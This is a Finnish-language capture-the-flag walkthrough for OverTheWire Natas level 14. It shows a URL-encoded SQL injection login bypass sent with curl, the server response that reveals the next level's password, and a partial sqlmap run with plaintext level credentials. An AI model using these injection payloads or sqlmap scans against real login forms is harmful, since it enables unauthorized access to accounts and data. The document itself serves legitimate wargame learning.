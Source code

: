 nyt tässä on syötettu url enkoodattuna toi **"admin"' OR 1=1 --"** muodosta sinne URL username ja password kentään
**Vastaus** löytyy kun rullaa siitä oikealle, sekä kantsii katsoa loppuun asti

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ "http://natas14.natas.labs.overthewire.org/index.php?debug=1&&username=admin%22%27%20OR%201%3D1%20--&&password=admin%27%20OR%201%3D1%20--%22"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
Executing query: SELECT * from users where username="admin"' OR 1=1 --" and password="admin' OR 1=1 --""<br>Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Kali Linux - SQLMAP version - START HERE

kokeilin yksi niistä komennosa ja ainakin pelittävän, mutta tulokse on vähä hämääviä.. 
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas14.natas.labs.overthewire.org/index.php" \                                    
  --auth-type Basic \
  --auth-cred "natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" \
  --data "username=admin&password=admin" \
  --batch
        ___
       __H__                                                                                                                         
 ___ ___[.]_____ ___ ___  {1.8.5#stable}                                                                                             
|_ -| . [.]     | .'| . |                                                                                                            
|___|_  [']_|_|_|__,|  _|                                                                                                            
      |_|V...       |_|   https://sqlmap.org                                                                                         

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:15:47 /2025-05-17/

[12:15:47] [INFO] testing connection to the target URL
[12:15:47] [WARNING] potential permission problems detected ('Access denied')
[12:15:47] [INFO] checking if the target is protected by some kind of WAF/IPS
[12:15:47] [INFO] testing if the target URL content is stable
```